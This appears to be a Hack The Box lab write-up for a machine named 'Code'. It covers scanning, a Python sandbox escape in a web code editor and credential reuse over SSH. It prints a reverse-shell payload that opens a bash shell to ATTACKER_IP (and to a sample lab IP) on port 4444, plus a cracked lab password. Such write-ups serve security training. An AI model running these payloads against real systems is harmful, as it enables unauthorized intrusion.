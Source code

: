 # 🔓 Hack The Box - Code

> Initial enumeration and setup for the Hack The Box machine named **Code**.

pwned

![pwned](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code20.png?raw=true)

---

## 📅 Start Date

`4/19/2025`

---

## 📡 HTB VPN Connection

Before starting, connect to the HTB VPN:

```bash
sudo openvpn ~/Downloads/HTB.ovpn
```

Verify connectivity to the target machine:

```bash
ping -c 3 <HTB_Code_IP>
```
![VPN Connection](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code1.png?raw=true)

🔍 Nmap Scan

Performed a service and version detection scan with aggressive options:

nmap -sC -sV -A -T4 -Pn -oN code.scan 10.10.11.62

![Nmap Result](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code2.png?raw=true)

🧪 Results Summary

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 20.0.4

Detailed Notes:

    Port 22 (SSH): OpenSSH 8.2p1 — possibly used for shell access after exploitation.

    Port 5000 (HTTP): Gunicorn Python server hosting a Python Code Editor.

http-title: Python Code Editor
http-server-header: gunicorn/20.0.4

📍 OS Details:

    OS detected: Linux 5.x Kernel

    Network distance: 2 hops

🌐 Web Enumeration on Port 5000

Access the Python Code Editor interface at:

http://code.htb:5000

![WebApp](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code3.png?raw=true)

🛠️ Next Steps:

    Interact with the Python Code Editor. Test for:

        Arbitrary code execution

        Upload/execute payloads

        Sandbox escape (if limited)

## 🏴‍☠️ Initial Foothold - Reverse Shell

### 🎯 Objective:
Gain initial access to the target system by exploiting the Python Code Editor and establishing a reverse shell.

---

### 🧰 Prerequisites:

- ✅ **Python** must be installed on the **target** machine.
- ✅ **Netcat (nc)** must be installed on the **attacker's** machine.
- ✅ Ensure the **target machine can reach the attacker’s IP and port**.

---

### 🪝 Step-by-Step Guide: Gaining a Reverse Shell

#### 📌 Step 1: Set Up a Listener on the Attacker’s Machine

On your Kali/Parrot or attacker machine, open a terminal and start Netcat to listen for the incoming connection:

```bash
nc -lvnp 4444
```

![netcat](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code6.png?raw=true)

Flags explanation:

    -l: Listen for incoming connections

    -v: Verbose output

    -n: Don’t perform DNS resolution

    -p 4444: Use port 4444 for the listener

📌 Step 2: Craft the Reverse Shell Payload

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code5.png?raw=true)
![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code7.png?raw=true)

Use Python’s dynamic class reference to spawn a bash shell back to your machine:

(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"])

    🔁 Replace ATTACKER_IP with your actual IP address (e.g., 10.10.14.89 from HTB VPN).

📌 Step 3: Execute the Payload on the Target Machine

Choose any of the following methods based on your access level:
🔹 Method 1: Direct Python Execution

If you already have a shell or console on the target:

python3 -c '(().__class__.__base__.__subclasses__()[317])(["/bin/bash", "-c", "bash -i >& /dev/tcp/10.10.14.89/4444 0>&1"])'

🔹 Method 2: Remote Code Execution (RCE) via Python Code Editor

Inject the payload through the web interface:

    Visit: http://code.htb:5000

    Enter the payload in the code execution area.

    Trigger execution.

![payload](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code8.png?raw=true)

---
## 🧍‍♂️ User Flag Capture

After gaining a reverse shell and exploring the target machine, 

![user.txt](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code13.png?raw=true)

## 🧪 Post-Exploitation - Credentials Discovery

After gaining a reverse shell as `app-production`, I began local enumeration and discovered a SQL database named `database.db` located in the project directory:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code9.png?raw=true)

## 🔐 Cracking Another MD5 Hash

While exploring `database.db` or files under `instance/`, I found another hashed password:

![Database](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code10.png?raw=true)

---

## 🧑‍💻 Logging in as Another User (Credential Reuse)

After cracking the MD5 hash found in the `instance/database.db` file, I discovered valid credentials:

- **Username**: `martin`
- **Password**: `nafeelswordsmaster`

### 🔐 Attempting SSH Access:

```bash
ssh martin@10.10.11.62
```
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code11.png?raw=true)
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code14.png?raw=true)

##  🔍 Found task.json then i modify and excute

![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code15.png?raw=true)
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code16.png?raw=true)
![martin](https://github.com/PrimeMurcia/htb/blob/main/code/ss/code17.png?raw=true)


